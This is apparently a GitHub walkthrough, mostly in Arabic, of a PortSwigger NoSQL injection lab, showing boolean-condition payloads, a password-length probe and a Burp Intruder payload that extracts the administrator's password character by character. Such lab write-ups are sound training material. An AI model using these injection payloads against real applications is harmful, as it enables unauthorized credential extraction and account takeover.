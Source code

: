 ## Welcome, my friend. Today we will start the [3. No-SQLI lab](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/bc951386-e03b-4b87-a919-4781ced51a10)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/8f19741a-eec4-4a66-8261-b7edf074a4c0)


### أول حاجة: نجرب نعمل تسجيل دخول طبيعي
##### هنفتح Burp Browser ونسجل دخول بالحساب اللي مدّيهولنا:
```
username: wiener
password: peter
```



 افتح Burp > Proxy > HTTP history

لاقي الـ GET /user/lookup?user=wiener

كليك يمين > Send to Repeater

![image](https://github.com/user-attachments/assets/8a685d83-740c-46ef-b23d-524cbdaf562a)


💥 الخطوة 3: اختبار هل في Injection
جرّب تحقن ' لوحدها:
```
GET /user/lookup?user=wiener'
```
![image](https://github.com/user-attachments/assets/ebb158b6-ca93-475e-afa9-bcdbc0043550)



لو ظهر Error → معناه إن التطبيق مش بيعقم الإدخال كويس، وده ممتاز لينا 😎


 الخطوة 4: جرّب Injection بسيط
جرّب ده:
```
GET /user/lookup?user=wiener'+'
```

واعمل URL-encode عن طريق Ctrl+U
![image](https://github.com/user-attachments/assets/0a4ee98f-ada2-41b7-8712-9a2df413bcc9)

لو رجّع بيانات اليوزر wiener → تمام، احنا على الطريق الصح 🔥


الخطوة 5: نختبر Boolean Conditions
False Condition ولازم تعملها URL-encoded:

```
wiener' && '1'=='2
```

![image](https://github.com/user-attachments/assets/fdb006cd-cb61-42bc-9c59-fb36f2fbb4e6)

النتيجة: "Could not find user" ✅
True Condition:

```
wiener' && '1'=='1
```

![image](https://github.com/user-attachments/assets/da0711ac-9e04-4adf-a2a5-87e951e96c3d)


النتيجة: بيرجع بيانات اليوزر ✅

يبقى كده نقدر نحقن Boolean logic ونتأكد من صحة الكلام عن طريق الرسپونس.

الخطوة 6: نكتشف طول الباسورد بتاع الـ admin

نبدأ نحقن شرط زي كده مع العلم اننا معانا اسم المستخدم بتاع الادمن وهو ***administrator***:

```
administrator' && this.password.length < 30 || 'a'=='b
```

![image](https://github.com/user-attachments/assets/737df46f-eadf-4b6e-a636-65442a0e015f)


لو رجّع بيانات الـ admin → معناها الباسورد أقل من 30 حرف.

ابدأ قلل الأرقام:

20 → رجع بيانات

 15 → رجع بيانات

    ...

 9 → رجع بيانات ✅

 8 → لأ ❌

يبقى كده الباسورد طوله 9 - 1 = 8 حروف
اكتشفنا ان عدد الحروف هم 8 حروف من خلال ذلك الشرط
```
administrator'+%26%26+this.password.length+==+8+||+'a'%3d%3d'b
```
![image](https://github.com/user-attachments/assets/76147392-8d7e-443a-ad23-c9a8c2b0e783)


الخطوة 7: نستخدم Intruder علشان نطلّع الباسورد حرف حرف
في Repeater:

غيّر الـ user للآتي:
```
administrator' && this.password[§0§]=='§a§
```

![image](https://github.com/user-attachments/assets/40be9b07-1c49-4cf4-bcbd-9d475eb7193d)

واخيرا اكتشفنا ان الباسورد هو ***glazizci***

![image](https://github.com/user-attachments/assets/2a6f72fa-18b5-4ed7-ad5d-91f3c45bd05c)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/f1c61151-08be-4186-bdc2-46e90fd842c5" width="400" height="350">
</p>
